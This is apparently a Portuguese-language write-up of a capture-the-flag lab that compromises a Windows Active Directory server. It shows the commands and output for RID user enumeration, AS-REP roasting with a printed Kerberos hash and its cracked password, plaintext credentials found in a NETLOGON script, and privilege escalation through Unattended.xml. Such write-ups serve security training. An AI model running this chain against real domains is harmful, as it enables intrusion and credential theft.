



 

# Linked

Status: Done

Com o inicio do CTF procedemos com a inicialização de nosso Recon, como de costume, utilizamos o Rustscan para uma análise rápida da portas de serviço, juntamente com a execução do Nmap nas portas achadas, resultando:

```bash
$ sudo nmap -sV -T4 -A -p $ports $IP

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 00:01 EST
Nmap scan report for 172.16.9.97
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-07 05:01:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: linked.hc0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: linked.hc0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LINKED
|   NetBIOS_Domain_Name: LINKED
|   NetBIOS_Computer_Name: EC2AMAZ-E8IIAVC
|   DNS_Domain_Name: linked.hc
|   DNS_Computer_Name: EC2AMAZ-E8IIAVC.linked.hc
|   DNS_Tree_Name: linked.hc
|   Product_Version: 10.0.20348
|_  System_Time: 2025-03-07T05:02:00+00:00
|_ssl-date: 2025-03-07T05:02:40+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=EC2AMAZ-E8IIAVC.linked.hc
| Not valid before: 2025-02-25T17:31:11
|_Not valid after:  2025-08-27T17:31:11
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: EC2AMAZ-E8IIAVC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-07T05:02:04
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.41 seconds
```

Nesse scan extraimos informações importantes, como:

- Nome da Máquina: EC2AMAZ-E8IIAVC
- Dominio: linked.hc

Tendo serviços como AD, SMB, LDAP procedemos com tais enumerações, iniciando com SMB, porém sem resultados satisfatórios…

Com isso, iniciamos um brute-force nos RIDs, resultando na enumeração de usuários:

```bash
$ nxc smb $IP -u 'linked.hc\Guest' -p '' --rid-brute

SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-E8IIAVC) (domain:linked.hc) (signing:True) (SMBv1:False)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [+] linked.hc\Guest: 
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  500: LINKED\Administrator (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  501: LINKED\Guest (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  502: LINKED\krbtgt (SidTypeUser)
...         .............   ...    ...............  .... ............. .............
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1000: LINKED\EC2AMAZ-E8IIAVC$ (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1109: LINKED\little.dantas (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1110: LINKED\jhony.corleone (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1111: LINKED\big.head (SidTypeUser)
```

<aside>
💡

No Active Directory, um Identificador Relativo (RID) é**um número que é atribuído a objetos como usuários, grupos e computadores**. Os RIDs fazem parte de um Identificador de Segurança (SID), que identifica exclusivamente objetos dentro de um domínio. 

</aside>

Tendo usuários listamos os mesmo em uma wordlist chamada `users.txt` iniciando assim a extração das hashes que via AESrep Roasting.

[Kerberos Attacks — AS-REP Roasting](https://medium.com/r3d-buck3t/kerberos-attacks-as-rep-roasting-2549fd757b5)

```bash
$ impacket-GetNPUsers linked.hc/ -usersfile users.txt -dc-ip $IP -request -format john

$krb5asrep$little.dantas@LINKED.HC:be1ab581856d5d404b82b1bb501ac0cc$876c895249cceba2192568aa768656e3c0f5a7faa0469193f3f26c304bd554b10d49ea7b3a6f20755d8b7c84e5a04c997907817e3623ef2dfaebb0ccf281d92aefe24ccf99341fccb5f3ca50768a11f8dceb4cb5e7b17c43db46a2160f7503ee843e768bff1338a2d9d7854f53597afc06fb626078397da645a600e4c9a6172cd9dbba1dbeb918cd382b48d3a4aeed5f11ff0f64058d9b35f442b447fa0f9a4221b44ff4d2bd5c68cb66dfc04f32db6e9b4e8a97fde89bba11bda22fc7c7336a51082379539734a514fa30883c8423e273ee13fd0949e216bf76ec9f17076901f3c72f9a13ae

```

Iniciando o processo de quebra utilizando o JohnTheRipper juntamente com a wordlist `rockyou.txt` .

- **Resultando na senha:** 3st4d0sun1d0SS^^

Com essas credenciais voltamos com o reconhecimento via SMB, devido a maiores privilégios no sistema, utilizando o [NetExec](https://github.com/Pennyw0rth/NetExec).

```bash
$ nxc smb $IP -u 'linked.hc\little.dantas' -p '3st4d0sun1d0SS^^' --shares   
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-E8IIAVC) (domain:linked.hc) (signing:True) (SMBv1:False)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [+] linked.hc\little.dantas:3st4d0sun1d0SS^^ 
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [*] Enumerated shares
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  Share           Permissions     Remark
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  -----           -----------     ------
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  ADMIN$                          Remote Admin
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  C$                              Default share
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  IPC$            READ            Remote IPC
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  NETLOGON        READ            Logon server share 
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  SYSVOL          READ            Logon server share
```

Os diretórios NETLOGON e SYSVOL, são normalmente onde são armazenados os scripts utilizados em GPOs configurações de usuários etc…

Sabendo disso, e entrando nos mesmo conseguimos a extração de um arquivo chamado `tasklist.vbs` , tendo em seu conteudo:

```visual-basic
strUsername = "LINKED.hc\jhony.corleone"
strPassword = "Th1s_1s_4_str0ng_p4ssw0rd"

strCommand = "tasklist"
Set objShell = CreateObject("WScript.Shell")
objShell.Run "runas /user:" & strUsername & " """ & strCommand & """", 1, True
```

Conseguindo acesso às crdenciais do usuário `jhony.corleone`, conseguimos assim nosso primeira acesso a máquina, via [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).




Conseguindo assim nossa primeira FLAG…

Com isso, iniciamos nossa Post-Exploitation com a enumeração interna do servidor, para possíveis PrivEsc. Para acelerarmos o processo de enuração tentamos fazer o uploud do [winpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS).


Executando-o, o mesmo conseguiu uma enumeração completa juntamente com a extração da credencial do usuário `big.head` tendo permissões administrativas.



```powershell
Computer Name           :   EC2AMAZ-E8IIAVC
User Name               :   big.head
User Id                 :   1111
Is Enabled              :   True
User Type               :   Administrator
Comment                 :
Last Logon              :   1/1/1970 12:00:00 AM
Logons Count            :   0
Password Last Set       :   2/27/2025 5:19:00 PM
```

Isso ocorreu devido a exposição de credenciais no arquivo `"C:\Windows\Panther\Unattended.xml”` assim como mostra o código do [winpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS).



Com a credencial conseguimos assim a flag do root, finalizando o CTF.

